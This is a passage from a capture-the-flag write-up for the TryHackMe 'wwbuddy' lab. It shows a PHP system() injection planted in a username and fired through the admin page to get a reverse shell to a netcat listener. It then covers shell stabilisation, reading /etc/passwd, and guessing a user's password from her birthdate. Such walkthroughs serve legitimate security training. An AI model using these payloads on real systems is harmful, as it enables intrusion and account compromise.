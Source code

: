 ### Changing the name
Now we have to change the name so that we can execute the shell.sh file on the webserver.
Name used : `<?php system('/bin/bash shell.sh') ?>`

### Accessing /admin from low priv user
```console
local@local:~/Documents/tryhackme/wwbuddy$ curl -H 'Cookie: PHPSESSID=be5injo6o0mbgsfssejddqq8d8' http://10.10.39.232/admin/
You dont have permissions to access this file, this incident will be reported.
```

### Listening on our box 
```console
local@local:~/Documents/tryhackme/wwbuddy$ nc -nvlp 9001
Listening on 0.0.0.0 9001
```

### Accessing /admin from admin's account
```console
local@local:~/Documents/tryhackme/wwbuddy$ curl -H 'Cookie: PHPSESSID=40msliho8kqgvm0tlcci4kcqi0' http://10.10.39.232/admin/
```
We don't get any output here but if we check the netcat listener we get a reverse shell back.
```console
local@local:~/Documents/tryhackme/wwbuddy$ nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.39.232 54588
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
## Getting a proper TTY
Now lets get a proper shell with auto completion.
```console
$ python3 -c "import pty;pty.spawn('/bin/bash')"
```
Hit CRTL+z to background the current process and on local box type
```console
local@local:~/Documents/tryhackme/wwbuddy$ stty raw -echo
```
and type fg and hit enter twice and on the reverse shell export the TERM as xterm.
```console
www-data@wwbuddy:/var/www/html/admin$   export TERM=xterm
```
# Privilege Escalation
### Users with shell
```console
www-data@wwbuddy:/var/www/html/admin$ cat /etc/passwd | grep -i sh | grep -v sshd
root:x:0:0:root:/root:/bin/bash
wwbuddy:x:1000:1000:WWBuddy:/home/wwbuddy:/bin/bash
roberto:x:1001:1001::/home/roberto:/bin/sh
jenny:x:1002:1002::/home/jenny:/bin/sh
```
There are 4 users on the box who have a login shell, one being root and other are wwbuddy,jenny and roberto. As jenny is the new member of the company, her password might still be her birthdate but we dont know her birthdate for now.
